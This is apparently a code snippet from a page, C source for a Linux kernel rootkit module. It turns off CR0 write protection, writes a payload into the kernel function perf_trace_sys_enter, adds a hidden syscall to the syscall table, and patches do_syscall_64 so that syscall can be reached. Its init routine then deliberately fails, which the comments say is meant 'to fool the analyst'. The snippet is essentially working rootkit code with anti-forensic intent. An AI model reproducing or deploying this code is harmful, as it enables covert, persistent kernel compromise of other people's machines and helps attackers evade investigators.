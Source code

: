 ```c
//
// Helpers to set/unset the WR bit of the cr0 register.
// Really helpful as we must be able to write even pages
// which are not marked as writable.
//
static inline void rootkit_enable_writes(void) {
    __write_cr0(__read_cr0() & ~X86_CR0_WP);
}

static inline void rootkit_disable_writes(void) {
    __write_cr0(__read_cr0() | X86_CR0_WP);
}

//
// Write the payload into the perf_trace_sys_enter function and add the pointer to this function
// at the end of the syscall table.
//
static void rootkit_add_syscall(void) {
    int i;
    sys_call_ptr_t *rootkit_sys_call_table = (sys_call_ptr_t *)kallsyms_lookup_name("sys_call_table");
    char *rootkit_sys_root_persistent_location = (char *)kallsyms_lookup_name("perf_trace_sys_enter");
    rootkit_enable_writes();
    for(i=0; i<sizeof(rootkit_sys_root); i++) {
        rootkit_sys_root_persistent_location[i] = rootkit_sys_root[i];
    }
    rootkit_sys_call_table[__NR_rseq+1] = (sys_call_ptr_t)rootkit_sys_root_persistent_location;
    rootkit_disable_writes();
}

//
// Patch the following do_syscall_64 instructions:
//
//    0xffffffff81001df7 :    cmp    rdi,0x14e
//    0xffffffff81001e00 :    cmp    rdi,0x14f
//
// into:
//
//    0xffffffff81001df7 :    cmp    rdi,0x14f
//    0xffffffff81001e00 :    cmp    rdi,0x150
//
// to allow our new syscall to be called.
//
static void rootkit_patch_do_syscall_64(void) {
    char *do_syscall_64_arr = (char *)kallsyms_lookup_name("do_syscall_64");
    rootkit_enable_writes();
    do_syscall_64_arr[42] = 0x4f;
    do_syscall_64_arr[51] = 0x50;
    rootkit_disable_writes();
}

static int __init rootkit_init(void) {
    rootkit_add_syscall();
    rootkit_patch_do_syscall_64();
    //
    // Enforce module to be removed from ram and write an error in dmesg to
    // fool the analyst
    //
    return -1;
}

static void __exit rootkit_exit(void) {}
```
